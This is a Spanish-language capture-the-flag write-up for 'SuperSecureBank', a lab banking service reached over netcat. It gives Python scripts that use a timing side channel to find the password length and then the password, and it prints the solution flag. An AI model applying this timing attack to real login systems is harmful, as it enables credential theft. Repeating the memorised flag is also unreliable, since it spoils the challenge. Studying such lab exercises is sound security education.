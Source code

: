 # SuperSecureBank
- **Categoría:** Misc
- **Dificultad:** ★★★☆☆
- **Autor:** [ineesdv](https://www.linkedin.com/in/ineesdv/)

### Descripción
SuperSecureBank is a lightweight banking application that will allow you to manage your money very easily.  

Although the application has been around for many years, we have recently added a new feature: now you can store your most valuable information in a safe!  
We also provide an alternative channel where you can transfer money to other user's accounts.
<br>

### Archivos e instrucciones
Conexión netcat: ``nc <IP> 10000``

### Flag
``CTFUni{El_t13mp0_3s_0R0!$}``
<br>


# Writeup
### 1. Encontrar la vulnerabilidad
Al analizar la aplicación podemos ver que en dos ocasiones se nos pide la contraseña: al acceder a la caja fuerte y al hacer transferencias.

Sin embargo, si nos fijamos bien, cuando se hacen transferencias se nos dice que la tecnología es muy antigua, a diferencia del acceso a la caja fuerte. Además, se proporcionan errores que no aparecen en el otro caso, como el de la longitud incorrecta de la contraseña.  

Con un pequeño script (o a mano jeje), rápidamente se puede averiguar que la longitud de la contraseña es de 8 caracteres:  
```python
def getPassLen():
    info("Getting password length...")
    for i in range(1, 20):
        print("\t Trying len "+str(i))
        r.sendline(b"2")
        r.recvuntil(b"Enter amount:")
        r.sendline(b"1")
        r.recvuntil(b"Enter destination account:")
        r.sendline(b"1")
        r.recvuntil(b"Enter your password to confirm the transaction:")
        r.sendline(b"A" * i)
        r.recvline()
        output = r.recvline()

        if b"Password lengths must match" not in output:
            info("Found. Password length: "+str(i))
            return i
```  
  
![](images/len.png)

<br>

Haciendo un test básico (enviar `[a-zA-Z0-9!@#_$%^&*()]`) se puede apreciar que hay un caso en el que el servidor tarda bastante más en responder. Por tanto, como se insinúa en el enunciado ("*alternative channel*"), estamos ante un **Side Channel Attack**, este caso por tiempo.  
  
```python
def time_chars(pass_len):
    info("Timing charset...")
    for i in charset:
        r.sendline(b"2")
        r.recvuntil(b"Enter amount:")
        r.sendline(b"1")
        r.recvuntil(b"Enter destination account:")
        r.sendline(b"1")
        r.recvuntil(b"Enter your password to confirm the transaction:")

        start = time.time()

        payload = i + "A"*(pass_len-1)
        r.sendline(payload.encode())
        r.recvline()
        output = r.recvline()

        end = time.time()
        t = end - start

        print("\t Char "+i+" - Time: "+str(t))
```
  
  
![](images/timing.png)

<br>

### 2. Explotación
Para obtener la contraseña bastará con un simple exploit que itere sobre el charset dado en el enunciado y vaya comparando los tiempos de respuesta. De esta manera irá seleccionando los caracteres en los que su tiempo de respuesta haya sido mayor. El exploit tarda aproximadamente 10 minutos en cargar toda la contraseña, ya que a medida que se van sacando caracteres, la aplicación tardará más en responder.  

Una manera de optimizarlo es darnos cuenta de que el tiempo es siempre constante (0.25 segundos aprox), por lo que, en cuanto se reciba un caracter cuya respuesta tarde más de 2.5 segundos, se pasa a la siguiente posición.  

Ejemplo de exploit:
```python
def attack(pass_len):
    info("Retrieving password...")
    cont = pass_len
    password = ""

    for k in range (1, pass_len+1):

        cont -= 1
        maxT = 0
        maxChar = ""

        for c in charset:
            r.sendline(b"2")
            r.recvuntil(b"Enter amount:")
            r.sendline(b"1")
            r.recvuntil(b"Enter destination account:")
            r.sendline(b"1")
            r.recvuntil(b"Enter your password to confirm the transaction:")

            start = time.time()

            payload = password + c + "A"*cont
            r.sendline(payload.encode())
            r.recvline()
            output = r.recvline()

            end = time.time()
            t = end - start
            if t > maxT:
                maxT = t
                maxChar = c

                # Optimización
                if t > (0.25*k):
                    break

        password += maxChar
        print("\t Password: "+password+"...")
    
    info("Found. Password: "+password)       
```

### 3. Acceso a la caja fuerte
Una vez conocida la contraseña (`c9v#M7_6`), solo hará falta seleccionar la opción de acceder a la caja fuerte (3) e introducir la contraseña obtenida. El servidor nos devolverá la flag.  

Juntando todo el proceso:  

![](images/exploit.png)
  
![](images/flag.png)

